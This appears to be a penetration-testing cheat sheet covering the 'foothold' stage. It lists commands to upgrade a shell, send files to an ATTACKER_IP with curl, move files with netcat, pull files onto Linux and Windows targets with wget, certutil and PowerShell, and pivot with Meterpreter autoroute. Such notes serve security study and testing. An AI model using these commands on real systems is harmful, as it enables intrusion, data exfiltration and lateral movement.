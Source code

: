 ```yaml
---
title: 4 – Foothold
summary: Foothold step – a note for confirming foothold and adding a little persistence.
description: Foothold step – a note for confirming foothold and adding a little persistence.
---
```


# Spawn Better Shell

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import pty; pty.spawn("/bin/bash")';export TERM=xterm</font>**</br>
 > `Ctrl + Z`</br>
 > **<font color=red>stty raw -echo; fg</font>**</br>
 > Spawn a better shell (tab, history, ...).

# Extract File from Target

---

### CURL


 > 
 > **<font color=red>curl</font> \[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red> -F 'data=@</font>fmyFile<font color=red>'</font>**</br>
 > Send myFile to an netcat listener.

# Upload File on Target

---

### NETCAT


 > 
 > **<font color=red>nc -l -p </font>\[TARGET_PORT\] <font color=red>\></font> newFile**</br>
 > Run on Target.

 > 
 > **<font color=red>nc</font> \[TARGET_IP\] \[TARGET PORT\] <font color=red>\<</font> myFile**</br>
 > Run on Attacker machine. Send a file on the target.

---

### PYTHON


 > 
 > **<font color=red>python3 -m http.server</font> \[ATTACKER_PORT\]**</br>
 > Run on attacker machine (at the file location).

 > 
 > **<font color=red>wget http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/myFile</font>**</br>
 > Get the file on a Linux target machine.

 > 
 > **<font color=red>certutil.exe -urlcache -f http://</font>\[ATTACKER_IP\]:\[ATTACKER_PORT\]<font color=red>/</font>myFile myFile**</br>
 > or</br>
 > **<font color=red>powershell -c wget "http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>" -outfile "</font>myFile<font color=red>"</font>**</br>
 > or</br>
 > **<font color=red>powershell -c "(new-object System.Net.WebClient).Downloadfile('http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>', '</font>myFile<font color=red>')"</font>**</br>
 > Get the file on a Windows target machine.

---

### MIMIKATZ


 > 
 > **<font color=red>upload</font> myFile**</br>
 > Transfer file to target.

---

### METERPRETER


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

# Pivoting

---

### METERPRETER

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
